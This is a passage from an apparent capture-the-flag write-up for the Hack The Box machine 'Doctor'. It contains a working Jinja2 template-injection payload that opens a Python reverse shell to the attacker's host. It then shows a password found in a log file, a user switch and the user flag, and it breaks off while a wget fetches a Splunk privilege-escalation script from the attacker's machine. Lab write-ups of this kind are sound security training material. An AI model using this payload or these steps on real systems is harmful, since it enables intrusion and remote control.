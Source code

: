 We then go for a reverse shell with the following payload be careful with the
quotes and escaped quotes).

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.121\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); import pty; pty.spawn(\"/bin/bash\");'").read().zfill(417)}}{%endif%}{% endfor %}`

That allow us to get a reverse shell on the box.

## Enumeration

After *a lot* of enumeration both
[manually](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
and using tools as
[linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
we found out that there is `backup` file in `/var/log/apache2` containing a call
to the password reset function but the user put its password instead of its
email.

    :::text
    web@doctor:/var/log/apache2$ grep password backup
    grep password backup
    10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

That password allow us to connect as `shaun` using the switch user `su` command
and get the user flag.

    :::text
    web@doctor:/var/log/apache2$ su shaun
    su shaun
    Password: Guitar123

    shaun@doctor:/var/log/apache2$ cat /home/shaun/user.txt
    cat /home/shaun/user.txt
    2b14d9d9ff996cfb2e4fb96e6db82631


# Root

Now that we have a username and a password we can try them against the Splunk
service. And they are working!

We transfer the [script mentioned above](https://github.com/tevora-threat/splunk_local_privesc)
to the box using `python -m http.server` on our kali box.

    :::text
    shaun@doctor:/tmp$ wget 10.10.14.121:8000/spelunker.sh
    wget 10.10.14.121:8000/spelunker.sh
    --2020-09-29 11:22:03--  http://10.10.14.121:8000/spelunker.sh
    Connecting to 10.10.14.121:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 2503 (2,4K) [text/x-sh]
    Saving to: ‘spelunker.sh.1’
